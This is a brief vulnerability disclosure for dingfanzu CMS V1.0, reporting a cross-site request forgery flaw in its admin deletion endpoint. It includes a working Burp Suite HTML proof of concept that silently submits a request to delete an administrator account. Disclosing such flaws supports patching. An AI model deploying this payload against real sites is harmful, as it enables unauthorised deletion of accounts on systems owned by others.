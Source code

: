 
target:https://github.com/geeeeeeeek/dingfanzu
version: V1.0

dingfanzu CMS V1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/doAdminAction.php?act=delAdmin&id=17

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/doAdminAction.php?act=delAdmin&id=17" method="POST">
      <input type="hidden" name="act" value="delAdmin" />
<input type="hidden" name="id" value="17" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```


